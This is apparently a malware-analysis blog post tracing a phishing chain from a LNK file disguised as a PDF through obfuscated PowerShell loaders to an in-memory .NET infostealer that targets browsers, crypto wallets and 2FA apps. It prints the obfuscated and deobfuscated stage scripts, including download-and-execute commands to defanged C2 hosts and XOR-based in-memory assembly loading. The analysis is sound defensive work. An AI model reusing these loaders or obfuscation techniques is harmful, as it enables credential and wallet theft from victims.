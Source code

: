 ## Phishing for InfoStealers

I recently came across a site which hosts multiple zip archives masquerading as PDF documents. The aim is to distribute a second-stage PowerShell script which executes a .NET binary in memory. The binary collects system information and targets software such as web browsers, cryptocurrency wallets, two-factor authentication applications and gaming software.

The file is delivered to the victim via email, which prompts them to download and open the following file:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a0451615-f6eb-40e0-85fd-891396665494)

A Zip archive is downloaded, which contains a Lnk file, masquerading with a PDF icon.

LNK Target Path (Defanged): 
```
C:\Windows\System32\msiexec.exe -package hxxPs[:/\]onedrive.live[.]com/download?cid=85B4181C5D4F7514&resid=58504D327740F380%21149&authkey=AIHrvoeE31NvUiI&.msi -qn
```

Upon execution, MsiExec would execute with the argument to download and execute a MSI file from the OneDrive URL provided.

This downloaded a file called "42WiseAnyConnect.msi", which we can extract a PowerShell script from using lessmsi:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/76fd615d-1298-47ac-bf25-a9e719da17d3)

PowerShell Script:
``` powershell
.(-join[char[]]((570-465),(266-165),(354-234)))(-join[char[]]((65678-399),(939-856),(959-858),(460-344),(618-573),(926-850),(700-589),(648-549),(283-186),(223-107),(596-491),(1006-895),(308-198),(440-408),(1038-971),(614-556),(332-240),(417-330),(826-721),(849-739),(734-634),(782-671),(619-500),(468-353),(309-217)(466-382),(787-686),(775-666),(724-612),(347-255),(933-846),(972-867),(959-849),(1063-963),(810-699),(897-778),(265-150),(611-544),(1077-963),(321-224),(421-306),(906-802),(528-452),(878-767),(927-824),(423-308),(543-497),(789-679),(1001-948),(960-845),(526-404),(924-838),(784-683),(867-747),(640-588),(361-305),(971-857),(590-535),(616-533),(967-910),(192-122),(656-589),(370-288),(548-450),(783-726),(943-865),(647-578),(226-159),(592-475),(323-313),(400-390),(929-893),(315-227),(883-763),(888-800),(411-324),(520-446),(625-554),(754-648),(775-695),(554-435),(346-226),(370-305),(235-203),(535-474),(633-601),(871-826),(675-569),(389-278),(353-248),(989-879),(725-634),(657-558),(262-158),(387-290),(524-410),(384-293),(860-767),(780-687),(638-598),(149-109),(349-292),(1049-996),(1008-960),(573-528),(480-424),(310-257),(914-863),(929-888),(243-199),(757-717),(945-888),(899-845),(987-935),(474-429),(731-675),(570-516),(859-805),(478-437),(812-768),(914-874),(858-802),(168-118),(560-512),(465-420),(950-895),(603-553),(910-861),(996-955),(966-922),(876-836),(362-313),(595-547),(766-710),(709-653),(906-861),(492-435),(949-893),(696-640),(824-783),(365-321),(611-571),(433-378),(722-668),(608-551),(924-879),(688-634),(726-672),(168-112),(283-242),(566-522),(1015-975),(822-765),(937-886),(995-943),(725-680),(329-273),(430-379),(422-372),(333-292),(463-419),(179-139),(752-703),(1039-991),(277-220),(410-354),(380-335),(443-386),(1052-995),(580-527),(537-496),(519-475),(862-822),(651-594),(441-393),(979-924),(349-304),(229-173),(430-382),(564-513),(970-929),(858-814),(208-168),(1010-958),(646-594),(555-503),(833-788),(349-298),(487-436),(722-665),(290-249),(706-662),(271-231),(596-542),(260-212),(209-161),(837-792),(423-371),(961-904),(442-390),(647-606),(434-390),(161-121),(370-320),(823-771),(541-492),(1041-996),(348-299),(245-194),(887-835),(504-463),(828-784),(334-294),(730-674),(187-132),(1044-989),(639-594),(295-240),(813-759),(1006-949),(731-690),(714-670),(619-579),(422-370),(770-718),(753-699),(220-175),(262-211),(343-292),(820-765),(177-136),(494-450),(583-543),(889-839),(479-424),(997-949),(441-396),(561-512),(458-404),(304-256),(607-566),(952-908),(836-796),(437-385),(531-477),(875-819),(828-783),(900-849),(698-645),(470-415),(527-486),(988-944),(161-121),(408-356),(238-182),(478-428),(281-236),(214-163),(496-441),(216-168),(1006-965),(244-200),(428-388),(161-112),(349-301),(1035-983),(248-193),(649-604),(163-106),(966-915),(287-235),(927-886),(778-734),(869-829),(468-416),(480-427),(1017-967),(150-105),(1051-1000),(1009-958),(367-311),(397-356),(685-641),(583-543),(643-588),(641-590),(463-414),(778-733),(323-269),(189-140),(653-599),(572-531),(162-118),(157-117),(471-421),(705-650),(757-700),(793-748),(814-765),(297-243),(473-422),(536-495),(600-556),(916-876),(494-440),(1037-981),(314-261),(997-952)
(1014-961),(268-214),(178-122),(238-197),(485-441),(707-667),(726-669),(311-260),(461-409),(612-567),(941-885),(261-212),(734-680),(518-477),(438-394),(854-814),(987-933),(939-890),(429-373),(633-588),(231-179),(1018-961),(577-520),(303-262),(167-123),(362-322),(308-258),(502-450),(256-207),(527-482),(631-582),(808-758),(948-899),(686-645),(282-238),(186-146),(774-725),(776-728),(209-156),(813-760),(475-430),(415-358),(571-520),(626-574),(750-709),(650-606),(508-468),(793-744),(684-636),(700-649),(427-371),(873-828),(994-937),(243-194),(202-148),(950-909),(253-209),(344-304),(488-433),(745-693),(253-203),(755-710),(220-166),(224-169),(486-431),(224-183),(993-949),(906-866),(216-163),(922-873),(699-646),(927-882),(1040-988),(547-495),(222-165),(879-838),(1043-999),(207-167),(988-939),(891-836),(217-164),(198-153),(673-624),(904-856),(381-325),(185-144),(200-156),(363-323),(428-372),(739-686),(552-498),(205-160),(908-853),(879-823),(601-545),(529-488),(1037-993),(744-704),(167-118),(158-110),(271-222),(359-304),(816-771),(218-161),(254-202),(560-504),(506-465),(469-425),(503-463),(468-411),(420-372),(354-304),(229-184),(969-913),(200-149),(759-709),(283-242),(503-459),(442-402),(523-467),(939-890),(283-229),(521-476),(186-131),(563-511),(918-865),(153-112),(163-119),(335-295),(406-354),(1049-998),(1045-989),(1043-998),(578-527),(380-326),(593-539),(454-413),(393-349),(640-600),(353-304),(332-284),(414-365),(1038-987),(162-117),(1035-978),(1029-977),(697-649),(442-401),(692-648),(202-162),(753-701),(660-609),(988-933),(194-149),(922-871),(744-690),(922-871),(287-246),(612-568),(643-603),(799-748),(736-681),(679-631),(906-861),(586-536),(730-673),(620-567),(284-243),(166-122),(737-697),(645-593),(170-115),(253-196),(696-651),(845-793),(991-943),(309-258),(1029-988),(370-326),(322-282),(315-263),(803-753),(297-245),(494-449),(778-727),(918-866),(457-402),(409-368),(528-484),(425-385),(459-407),(719-666),(205-150),(972-927),(970-919),(249-194),(1024-967),(570-529),(481-437),(683-643),(731-681),(301-247),(300-250),(424-379),(302-253),(876-820),(293-242),(528-487),(373-329),(213-173),(585-534),(919-866),(956-906),(409-364),(868-818),(474-419),(424-374),(654-613),(848-804),(209-169),(270-215),(204-155),(992-942),(963-918),(548-494),(760-709),(428-379),(148-107),(153-109),(466-426),(648-593),(468-413),(898-845),(235-190),(788-734),(438-381),(1030-979),(366-325),(251-207),(725-685),(1039-985),(727-679),(748-699),(879-834),(559-506),(552-503),(900-844),(262-221),(1025-981),(463-423),(498-447),(393-337),(630-578),(877-832),(177-126),(456-408),(591-543),(702-661),(682-638),(241-201),(605-548),(825-772),(479-428),(575-530),(376-320),(326-272),(283-227),(671-630),(1012-968),(313-273),(497-443),(498-442),(613-556),(876-831),(458-404),(496-448),(858-807),(750-709),(353-309),(847-807),(1016-961),(312-257),(655-598),(190-145),(284-230),(366-309),(711-661),(318-277),(633-589),(321-281),(322-265),(604-551),(419-371),(379-334),(281-225),(981-927),(587-537),(721-680),(852-808),(305-265),(229-175),(838-790),(543-491),(597-552),(371-318),(580-531),(166-113),(427-386),(799-755),(589-549),(859-807),(429-374),(516-465),(533-488),(978
927),(380-324),(850-799),(936-895),(460-416),(190-150),(166-117),(822-774),(589-537),(913-857),(637-592),(593-536),(271-214),(759-702),(598-557),(245-201),(765-725),(926-874),(857-802),(519-463),(990-945),(444-392),(634-584),(649-593),(471-430),(174-130),(557-517),(263-214),(832-778),(540-485),(785-740),(289-240),(241-192),(328-274),(591-550),(309-265),(719-679),(559-502),(553-499),(975-919),(568-523),(181-124),(580-531),(274-220),(523-482),(527-483),(207-167),(556-504),(520-470),(551-502),(402-357),(583-532),(545-491),(1035-979),(291-250),(948-904),(751-711),(600-544),(939-891),(761-713),(420-375),(1013-958),(804-752),(507-453),(331-290),(196-152),(151-111),(624-570),(895-844),(705-655),(622-577),(225-172),(398-343),(437-382),(496-455),(618-574),(255-215),(930-877),(208-157),(260-210),(808-763),(270-218),(445-390),(512-458),(247-206),(834-790),(203-163),(829-773),(807-751),(639-585),(882-837),(537-481),(841-791),(446-389),(640-599),(422-378),(770-730),(816-762),(291-235),(221-171),(751-706),(551-497),(164-113),(165-113),(400-359),(854-813),(757-747),(424-388),(236-157),(976-899),(842-774),(656-586),(299-196),(477-370),(649-566),(479-404),(644-540),(347-243),(843-740),(871-772),(261-229),(956-895),(706-674),(774-734),(703-654),(693-647),(286-240),(752-703),(331-281),(897-865),(923-799),(413-381),(490-420),(410-299),(624-510),(204-135),(579-482),(393-294),(276-172),(178-133),(1029-950),(377-279),(1073-967),(258-157),(974-875),(397-281),(540-508),(529-406),(476-444),(188-117),(502-401),(1084-968),(515-470),(708-626),(543-446),(954-844),(430-330),(638-527),(519-410),(915-883),(641-596),(216-143),(871-761),(472-360),(738-621),(969-853),(774-695),(526-428),(616-510),(705-604),(517-418),(873-757),(642-610),(1012-976),(903-815),(278-158),(573-485),(457-370),(703-629),(687-616),(907-801),(393-313),(322-203),(269-149),(593-528),(262-216),(1014-930),(391-280),(174-107),(877-773),(335-238),(315-201),(633-568),(869-755),(216-102),(555-458),(386-265),(887-847),(911-870),(138-106),(313-188),(315-274),(383-373),(232-222),(892-856),(1024-939),(226-152),(370-267),(676-594),(804-696),(595-498),(808-739),(1063-986),(996-913),(361-329),(275-214),(612-580),(389-318),(1091-990),(480-364),(589-544),(1034-952),(402-305),(759-649),(974-874),(918-807),(1072-963),(877-845),(558-513),(691-614),(721-616),(519-409),(550-445),(803-694),(619-502),(925-816),(560-528),(303-254),(830-778),(781-749),(779-734),(476-399),(611-514),(796-676),(968-863),(628-519),(538-421),(863-754),(498-466),(656-599),(1028-978),(747-737),(357-274),(424-308),(536-439),(567-453),(289-173),(821-776),(273-190),(285-177),(1000-899),(1019-918),(416-304),(864-832),(834-789),(721-638),(383-282),(224-125),(492-381),(347-237),(430-330),(1103-988),(510-478),(976-940),(745-660),(444-370),(272-169),(320-238),(472-364),(205-108),(432-363),(855-778),(685-602),(909-899),(402-366),(539-473),(853-781),(485-363),(592-527),(541-420),(341-276),(609-538),(897-808),(1075-976),(135-103),(427-366),(153-121),(940-895),(721-615),(785-674),(533-428),(896-786),(202-111),(1084-985),(437-333),(838-741),(238-124),(936-845),(666-573),(767-674),(893-853),(146-106),(422-368),(1026-976),(964-915),(707
662),(926-873),(474-425),(630-575),(849-808),(725-681),(809-769),(824-767),(192-136),(727-674),(800-755),(582-526),(173-119),(337-280),(660-619),(555-511),(873-833),(324-272),(877-824),(496-447),(981-936),(826-775),(494-443),(661-608),(749-708),(663-619),(240-200),(970-921),(284-236),(863-813),(539-487),(395-350),(599-542),(532-483),(322-272),(269-228),(649-605),(829-789),(932-880),(305-252),(744-693),(613-568),(382-331),(474-417),(939-886),(580-539),(657-613),(891-851),(790-736),(953-896),(877-822),(666-621),(696-642),(530-477),(906-858),(664-623),(473-429),(203-163),(869-812),(617-565),(752-696),(863-818),(530-473),(273-225),(385-336),(497-456),(211-167),(162-122),(745-690),(812-764),(375-324),(204-159),(1036-982),(505-452),(457-405),(860-819),(190-146),(574-534),(694-644),(209-156),(372-319),(1006-961),(325-275),(196-148),(347-297),(163-122),(899-855),(1033-993),(225-170),(683-634),(256-204),(200-155),(1047-993),(613-559),(389-337),(562-521),(760-716),(789-749),(186-132),(506-450),(882-827),(242-197),(1008-954),(835-783),(644-595),(213-172),(462-418),(207-167),(1045-991),(606-550),(839-782),(931-886),(266-212),(556-505),(708-657),(415-374),(345-301),(625-585),(416-367),(349-292),(1015-963),(326-281),(403-354),(989-938),(901-846),(422-381),(824-780),(179-139),(165-110),(321-270),(517-460),(898-853),(414-360),(256-199),(308-257),(703-662),(410-366),(448-408),(660-610),(590-539),(530-477),(225-180),(800-751),(353-297),(240-186),(548-507),(200-156),(873-833),(806-753),(339-285),(313-259),(429-384),(513-460),(561-513),(178-121),(627-586),(615-571),(537-497),(427-370),(1012-956),(412-360),(412-367),(265-208),(157-107),(599-543),(934-893),(526-482),(371-331),(697-640),(571-523),(882-828),(457-412),(818-762),(421-367),(495-447),(187-146),(267-223),(520-480),(360-306),(452-395),(874-821),(462-417),(693-639),(158-106),(587-534),(815-774),(730-686),(722-682),(400-346),(226-177),(610-556),(891-846),(1027-974),(689-635),(711-657),(840-799),(220-176),(1014-974),(518-466),(508-459),(575-518),(157-112),(631-580),(307-253),(202-150),(877-836),(768-724),(609-569),(733-676),(596-548),(980-923),(829-784),(398-342),(646-593),(363-314),(944-903),(464-420),(344-304),(647-591),(785-731),(391-339),(975-930),(714-658),(308-259),(828-779),(646-605),(821-777),(812-772),(267-210),(1036-981),(720-664),(727-682),(428-371),(338-287),(861-813),(629-588),(209-165),(855-815),(413-361),(244-196),(636-587),(161-116),(952-901),(920-867),(230-179),(948-907),(434-390),(870-830),(177-127),(458-408),(528-472),(902-857),(210-161),(1024-968),(677-629),(184-143),(731-687),(348-308),(911-862),(287-239),(471-423),(870-815),(582-537),(442-385),(868-814),(361-313),(534-493),(1012-971),(574-564),(494-458),(948-867),(875-795),(630-508),(939-853),(908-806),(650-584),(876-797),(930-841),(604-497),(490-458),(1045-984),(644-612),(701-665),(572-506),(905-833),(520-398),(792-727),(638-517),(806-741),(633-562),(454-365),(713-614),(564-532),(222-179),(425-393),(325-289),(343-264),(549-472),(299-231),(827-757),(353-250),(806-699),(577-494),(965-890),(205-101),(504-400),(865-762),(550-451),(815-805),(721-685),(442-330),(196-108),(575-493),(508-392),(548-434),(1051
981),(416-346),(807-702),(814-724),(1055-981),(1062-940),(778-692),(273-241),(641-580),(746-714),(687-616),(794-693),(969-853),(247-202),(406-324),(1022-925),(921-811),(770-670),(751-640),(626-517),(574-542),(172-127),(993-916),(752-647),(725-615),(725-620),(679-570),(496-379),(877-768),(263-231),(442-392),(234-183),(509-477),(207-162),(794-717),(264-167),(977-857),(335-230),(223-114),(648-531),(482-373),(1000-968),(455-399),(373-324),(797-787),(960-877),(954-838),(239-142),(430-316),(497-381),(504-459),(231-148),(980-872),(494-393),(746-645),(774-662),(999-967),(971-926),(1017-934),(697-596),(932-833),(565-454),(366-256),(920-820),(800-685),(702-670),(166-130),(1078-966),(211-123),(1050-968),(358-242),(430-316),(1031-961),(261-191),(1067-962),(277-187),(199-125),(646-524),(808-722),(294-284),(369-359),(278-242),(334-212),(362-272),(1032-912),(476-397),(441-355),(942-823),(1009-944),(374-273),(568-536),(488-427),(956-924),(492-419),(1051-941),(1097-979),(321-210),(645-538),(1004-903),(1034-989),(602-515),(380-279),(643-545),(677-595),(366-265),(701-588),(691-574),(534-433),(1018-903),(436-320),(151-119),(553-508),(941-856),(576-461),(428-327),(975-909),(288-191),(686-571),(392-287),(756-657),(1064-984),(203-106),(672-558),(543-428),(602-497),(491-381),(369-266),(167-135),(672-627),(512-427),(583-469),(278-173),(1014-982),(411-375),(548-467),(690-610),(474-352),(582-496),(630-528),(699-633),(502-423),(238-149),(213-106),(723-713),(950-914),(337-248),(508-438),(624-558),(738-668),(650-530),(230-147),(801-695),(796-729),(745-643),(675-565),(937-870),(490-458),(657-596),(483-451),(651-560),(777-694),(509-388),(1110-995),(740-624),(745-644),(360-251),(366-320),(290-206),(568-467),(340-220),(229-113),(760-714),(230-161),(228-118),(237-138),(978-867),(251-151),(814-709),(1004-894),(387-284),(839-746),(516-458),(729-671),(378-293),(452-368),(968-898),(752-696),(739-693),(281-210),(1064-963),(239-123),(467-384),(348-232),(247-133),(627-522),(1030-920),(452-349),(910-870),(598-562),(937-815),(468-378),(476-356),(199-120),(602-516),(644-525),(210-145),(731-630),(758-712),(689-622),(670-559),(290-180),(670-554),(966-865),(304-194),(1042-926),(511-470),(348-338),(375-365),(753-680),(586-476),(944-826),(420-309),(562-455),(299-198),(293-248),(842-773),(560-440),(914-802),(403-289),(782-681),(1043-928),(551-436),(979-874),(1068-957),(813-703),(830-798),(280-235),(464-397),(1038-927),(835-726),(846-737),(664-567),(547-437),(775-675),(736-704),(725-689),(642-553),(309-239),(425-359),(393-323),(992-872),(277-194),(342-236),(571-504),(734-632),(1062-952),(993-926),(447-437),(630-620),(234-151),(825-709),(406-309),(912-798),(286-170),(379-334),(413-330),(723-615),(1011-910),(636-535),(227-115),(815-783),(151-106),(900-817),(686-585),(668-569),(1107-996),(476-366),(796-696),(335-220),(357-325),(839-785),(573-525),(911-863),(125-115),(785-775),(579-497),(498-397),(594-485),(613-502),(945-827),(578-477),(177-132),(576-503),(623-507),(788-687),(406-297),(408-376),(512-467),(315-235),(670-573),(478-362),(466-362),(834-802),(609-573),(928-848),(501-418),(330-263),(796-685),(323-214),(286-177),(841-744),(291-181),(555-455),(409-329),(271
174),(649-533),(717-613),(927-895),(559-514),(746-676),(1087-976),(683-569),(839-740),(1092-991)))
```

We can deobfuscate this simply by using an echo command before the command block, which gives us the following:

``` powershell
.
iex
﻿Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$XxXWJGjPwxA = -join[char[]]((950-853),(964-866),(820-721),(1088-988),(769-668),(934-832),(1098-995),(907-803),(444-339),(600-494),(241-134),(877-769),(446-337),(270-160),(468-357),(482-370),(1047-934),(452-338),(731-616),(279-163),(685-568),(934-816),(618-499),(241-121),(1055-934),(1038-916),(742-677),(515-449),(175-108),(856-788),(1017-948),(902-832),(816-745),(438-366),(1013-940),(437-363),(370-295),(479-403),(424-347),(457-379),(262-183),(352-272),(712-631),(775-693),(601-518),(384-300),(953-868),(689-603),(779-692),(950-862),(604-515),(473-383),(1048-999),(478-428),(167-116),(968-916),(421-368),(800-746),(632-577),(532-476),(886-829),(682-634))
$OMDFgkSKhhgc = (1..12 | ForEach-Object { Get-Random -InputObject $XxXWJGjPwxA.ToCharArray() })

$UJgRlaEMS = Get-Random -Minimum 14 -Maximum 92
Start-Sleep -Seconds $UJgRlaEMS
$BHzAyAGYc = -join[char[]]((621-517),(985-869),(451-335),(1024-912),(453-395),(697-650),(948-901),(703-654),(255-202),(714-664),(687-641),(689-633),(194-137),(739-693),(235-186),(566-509),(984-928),(906-860),(695-645),(616-566),(419-364),(909-851),(864-811),(978-930),(401-353),(228-180),(1007-960))
$QPzVfBOYk = $BHzAyAGYc + $OMDFgkSKhhgc
$pXRtrFFiZJzV = Get-Random -Minimum 23 -Maximum 81
Start-Sleep -Seconds $pXRtrFFiZJzV

$zZxOVwAe = Invoke-WebRequest -UseBasicParsing -Uri $QPzVfBOYk
$YFBFxSjCfnC = [System.Text.Encoding]::UTF8.GetString($zZxOVwAe.Content)

Invoke-Expression -Command $YFBFxSjCfnC

Start-Sleep -Seconds 600

Remove-Item -Path $PSCommandPath -Force
```

We can work out the variables using a similar method, we'll echo the join[char] string, and convert the output from decimal to ASCII.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/116468c3-948a-4dee-bb3d-bf702d0ee877)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f33f098b-ad0c-4fb0-9e85-f624dd3db7e5)



[-] $XxXWJGjPwxA = abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890

[-] $BHzAyAGYc = hxxp[://]152.89.198[.]227:5000/

Essentially the script is downloading and executing the content from the IP:Port above, with a random 12-character string URI

The script which lives there is the following:

``` powershell
Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$rnd = Get-Random -Minimum 13 -Maximum 91
Start-Sleep -Seconds $rnd

$randomFunctions = @(
    { return [math]::Pi * (Get-Random -Minimum 0 -Maximum 100) },
    { return [guid]::NewGuid().ToString() },
    { return Get-Random -Minimum 0 -Maximum 100 }
)

$randomFunction = Get-Random -InputObject $randomFunctions`

try {
    $dotNetVersion = (Get-Command 'dotnet').Version.Major
    if ($dotNetVersion -ge 4) {
        Write-Host "Installed Version .NET Runtime: $dotNetVersion"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap4.ps1')" -NoNewWindow
    } else {
        Write-Host "$randomValue"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
    }
} catch {
    Write-Host "$randomValue"
    Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
}

$rnd2 = Get-Random -Minimum 12 -Maximum 73
Start-Sleep -Seconds $rnd2


Remove-Item $PSCommandPath -Force

```

The main takeaway from this is that the script checks the .NET version of the victim host, the outcome of which decides which script will be executed.

Next stage:

``` powershell
[byte[]] $binary = (Long Byte Arary)

# [Net.ServicePointManager]::SecurityProtocol +='tls12'
$guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid
$config = (new-object net.webclient).downloadstring("hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW").Split('|')
$k = $config[0];

for ($i = 0; $i -lt $binary.Length ; ++$i)
{
	$binary[$i] = $binary[$i] -bxor $k[$i % $k.Length]
}

$sm = [System.Reflection.Assembly]::Load($binary)
$ep = $sm.EntryPoint


$ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3])))
```
The following actions are performed by the script:

[-] Retrieves the MachineGuid from the Windows registry: $guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid

[-] Retrieves 3 values from 'hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW' and assigns them to the $config array.

[-] Performs a bitwise XOR operation (-bxor) on the binary array with the first value.

[-] Loads the binary data as a .NET assembly using [System.Reflection.Assembly]::Load($binary).

[-] Accessing the entry point of the loaded assembly: $ep = $sm.EntryPoint.

[-] Invokes the entry point of the assembly with the three values: $ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3]))).

The values are as follows:

zpsoJEKDxaCoTLVurobI|ezzcAvVW|hxxp[://]45.129.199[.]204/index.php|

We know that the first value is the XOR key, so we can use this to retrieve the binary from the byte array using CyberChef.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/50343d38-5655-4491-b786-f72712eb31ee)

The binary can be reviewed in DNSpy as it is a .NET binary, however, it is extremely obfuscated as it has been protected with ConfuserEx.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c2fa5c5d-54e7-4874-a240-20168cd6fbc8)

We can use a Confuser Unpacker to make this code a lot easier to read, I'll be using this - https://github.com/XenocodeRCE/ConfuserEx-Unpacker/tree/master

Unpack the binary:

```
C:\Users\mzheader\Desktop\ConfuserEx-Unpacker-master\ConfuserEx Dynamic Unpacker\bin\Debug > & '.\ConfuserEx Dynamic Unpacker.exe' -s C:\Users\mzheader\Desktop\confusing.exe
```

Instantly, we can see the two arguments being passed from the previous web request

(buildID = 'ezzcAvVW' and URL =  'hxxp[://]45.129.199[.]204/index.php')

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/2cc1b5a0-0b00-4a0e-b6de-44a0cde031ca)

There are lots functions typical of info-stealing malware, described below:

**Finding and stealing sensitive browser information**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/13e30051-0c28-443e-af05-d412cdbea19b)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/68c2bf01-3f44-4c89-ad43-189df3d437fc)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/88e34856-1b24-4578-b749-a67c7a5eeee9)


**Crypto Wallet Paths being defined:**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/49ad2d13-5946-4182-8ac7-f16d75f77be1)

**Screenshot functionality:**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9dc09b92-a8f7-435f-a888-37dcc6ed3a9a)







Dynamic Analysis:

To be able to execute this binary without an internet connection, I've hardcoded the config and changed the C2 address to localhost.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/98544282-3be6-407d-a28b-183801d7e5e8)

Upon execution, we can see POST requests are sent to the hardcoded C2 address
```
POST /index.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 86407
Expect: 100-continue
Connection: Keep-Alive
```

Investigating with ProcMon we see the file events we would expect from an infostealer, touching files which contain sensitive information such as credentials, and extensions associated with 2FA, password management and crypto wallets.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5844ee7d-47ec-405d-a61a-e0f26c1de989)







